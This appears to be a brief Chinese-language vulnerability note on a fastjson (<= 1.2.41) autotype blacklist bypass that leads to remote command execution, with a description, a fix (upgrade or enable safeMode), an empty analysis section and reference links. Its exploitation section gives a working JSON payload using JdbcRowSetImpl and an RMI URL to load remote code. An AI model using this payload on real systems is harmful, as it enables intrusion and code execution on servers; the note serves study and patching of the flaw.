

### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.41

由于过滤不严格，在开启autotype后导致类加载黑名单被绕过，造成命令执行


### 二 漏洞利用
```
{           
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"rmi://192.168.52.129:9999/rce_1_2_24_exploit",
	"autoCommit":true
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson


### 四 漏洞分析


> 参考链接
> https://www.cnblogs.com/0x28/p/14378502.html  
> https://www.cnblogs.com/huim/p/16566911.html
